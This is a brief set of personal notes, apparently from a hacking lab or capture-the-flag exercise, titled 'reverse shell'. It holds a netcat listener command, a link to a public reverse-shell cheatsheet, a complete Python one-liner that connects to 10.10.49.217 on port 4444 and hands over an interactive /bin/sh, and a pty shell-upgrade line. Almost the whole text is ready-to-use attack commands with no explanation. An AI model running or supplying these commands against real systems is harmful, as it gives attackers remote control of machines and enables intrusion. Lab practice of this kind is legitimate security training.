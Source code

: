 **reverse shell**
nc -lvnp 4444
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.49.217",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

which python3
python3 -c ‘import pty; pty.spawn(“/bin/bash”)’ - to see the path/directory